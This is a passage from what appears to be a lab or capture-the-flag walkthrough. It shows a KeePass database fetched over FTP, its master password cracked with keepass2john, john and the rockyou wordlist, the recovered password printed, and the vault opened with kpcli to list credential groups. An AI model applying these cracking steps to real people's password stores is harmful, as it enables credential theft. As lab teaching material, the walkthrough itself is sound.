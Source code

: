 ```
local: tim.kdbx remote: tim.kdbx
200 PORT command successful.
150 Opening BINARY mode data connection.
226 Transfer complete.
2222 bytes received in 0.95 secs (2.2935 kB/s)
```

Switching to `binary mode` with the `bin` command ensures accurate file transfers. 


<hr width="300" size="10">




<h3>Keepass2john</h3>

```
keepass2john tim.kdbx >hash.txt
```

```
john --format="keepass" --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

john finds the password quickly.

```
simplementeyo    (tim)
```


<hr width="300" size="10">


<h3>kpcli</h3>



```
kpcli --kdb=tim.kdbx

Please provide the master password: *************************                                         
                                                                                                      
KeePass CLI (kpcli) v3.1 is ready for operation.                                                      
Type 'help' for a description of available commands.                                                  
Type 'help <command>' for details on individual commands.                                             
                                                                                                      
kpcli:/> ls                                                                                           
=== Groups ===                                                                                        
PERSONAL/                                                                                             
WORK/                                                                                                 
kpcli:/> cd WORK
kpcli:/WORK> ls                                                                                       
=== Groups ===                                                                                        
CISCO/                                                                                                
CLOUD/                                                                                                
EMAIL/                                                                                                
```